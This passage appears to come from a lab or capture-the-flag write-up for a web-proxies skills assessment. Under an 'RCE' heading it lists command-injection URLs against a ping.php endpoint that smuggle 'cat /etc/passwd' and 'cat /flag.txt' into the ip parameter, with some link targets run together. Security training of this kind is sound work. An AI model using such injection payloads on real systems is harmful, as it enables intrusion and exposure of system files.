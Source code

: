 * RCE
  * [http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fetc%2Fpasswd%26
    ](http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fetc%2Fpasswd%26http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fflag.txt%26)
  * [http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fflag.txt%26](http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fetc%2Fpasswd%26http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fflag.txt%26)

<figure><img src=".gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment - Using Web Proxies

**The /lucky.php page has a button that appears to be disabled. Try to enable the button, and then click it to get the flag.**

<figure><img src=".gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>
